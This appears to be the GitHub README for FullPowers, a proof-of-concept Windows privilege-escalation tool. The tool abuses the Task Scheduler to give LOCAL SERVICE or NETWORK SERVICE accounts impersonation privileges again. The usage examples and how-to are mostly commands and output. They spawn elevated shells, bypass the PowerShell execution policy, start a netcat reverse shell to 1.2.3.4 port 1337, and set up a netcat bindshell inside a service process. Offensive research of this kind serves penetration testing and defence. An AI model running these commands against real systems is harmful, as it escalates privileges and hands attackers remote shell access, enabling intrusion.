

# FullPowers

___FullPowers___ is a Proof-of-Concept tool I made for automatically recovering the __default privilege set__ of a service account including __SeAssignPrimaryToken__ and __SeImpersonate__. 

<p align="center">
  
</p>

## Rationale

On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to __run with a restricted set of privileges__. Therefore, even if the service is compromised, __you won't get the golden impersonation privileges__ and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you __create a scheduled task__, the new process created by the __Task Scheduler Service__ has __all the default privileges__ of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.

For more information: https://itm4n.github.io/localservice-privileges/

## Usage

:warning: __This tool should be executed as `LOCAL SERVICE` or `NETWORK SERVICE` only.__

You can check the help message using the `-h` option.

```
c:\TOOLS>FullPowers -h

FullPowers v0.1 (by @itm4n)

  This tool leverages the Task Scheduler to recover the default privilege set of a service account.
  For more information: https://itm4n.github.io/localservice-privileges/

Optional arguments:
  -v              Verbose mode, used for debugging essentially
  -c <CMD>        Custom command line to execute (default is 'C:\Windows\System32\cmd.exe')
  -x              Try to get the extended set of privileges (might fail with NETWORK SERVICE)
  -z              Non-interactive, create a new process and exit (default is 'interact with the new process')
```

### Example 1, basic usage
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

### Example 2, specify a custom command line
```
c:\TOOLS>FullPowers -c "powershell -ep Bypass"
[+] Started dummy thread with id 9028
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> Get-ExecutionPolicy
Bypass
```

### Example 3, start a netcat reverse shell and exit
```
c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
[+] Started dummy thread with id 5482
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
```

## How-To

__You want to test this PoC yourself? That's great!__ Here are some simple instructions to get you started.

The overall idea is to start a bindshell from the process of an existing service, connect to it and then run the executable. 

1. You'll need 2 third-party tools, [netcat](https://eternallybored.org/misc/netcat/) and [RunFromProcess](https://www.nirsoft.net/utils/run_from_process.html).  
2. Pick a service which has limited privileges, e.g.: `upnphost`.  
3. Open the __Task Manager__, go to the __Services__ tab and get the __PID__ of the corresponding process.  
4. Use the following command to start the bindshell __as an administrator__:  
```
C:\TOOLS>RunFromProcess-x64.exe <PID> C:\TOOLS\nc64.exe -l -p 9001 -e cmd
```
5. Use the following command to connect to the bindshell:  
```
C:\TOOLS>nc64.exe 127.0.0.1 9001
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description              State
======================= ======================== =======
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects    Enabled
```
6. We can see that the current process has no impersonation privileges. Now run the PoC...  
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 5568
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

You should now have a shell __with impsersonation privileges__!

